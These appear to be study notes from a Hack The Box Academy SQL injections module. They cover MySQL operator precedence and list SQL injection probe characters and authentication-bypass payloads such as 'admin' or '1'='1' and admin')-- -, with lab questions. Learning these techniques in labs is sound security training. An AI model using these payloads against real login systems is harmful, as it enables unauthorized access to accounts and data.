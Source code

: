 ## MySQL Operator Precedence  

>[SQL Operators](https://academy.hackthebox.com/module/33/section/192)  

* Division (`/`), Multiplication (`*`), and Modulus (`%`)
* Addition (`+`) and Subtraction (`-`)
* Comparison (`=`, `>`, `<`, `<=`, `>=`, `!=`, `LIKE`)
* NOT (`!`)
* AND (`&&`)
* OR (`||`)

>Query: In the 'titles' table, what is the number of records WHERE the employee number is **greater** than `10000` **OR** their title does **NOT** contain `engineer`?  

```
select * from titles WHERE emp_no > 10000 OR title != 'engineer%';
```  

## SQL Injection  

>[Intro to SQL Injections & Types of SQL Injections](https://academy.hackthebox.com/module/33/section/193)  

### Identify SQLi  

| **Payload**   | **URL Encoded**   |
| --------------|-------------------|
| `'` | %27 |
| `"` | %22 |
| `#` | %23 |
| `;` | %3B |
| `)` | %29 |


| **Payload**   | **Description**   |
| --------------|-------------------|
| **Auth Bypass** |
| `admin' or '1'='1` | Basic Auth Bypass [Subverting Query Logic - Authentication Bypass](https://academy.hackthebox.com/module/33/section/194) |
| `tom' or '1'='1` | Log in as the user 'tom'. |
| `admin')-- -` | Basic Auth Bypass With comments [Using Comments](https://academy.hackthebox.com/module/33/section/799) |
| `any' OR id =5);# | Login as the user with the id 5 to get the flag. |
| [Auth Bypass Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass) | PayloadsAllTheThings SQL Injection Examples |

>Connect to the MySQL server with the 'mysql' tool, and find the number of records returned when doing a 'Union' of all records in the 'employees' table and all records in the 'departments' table.  
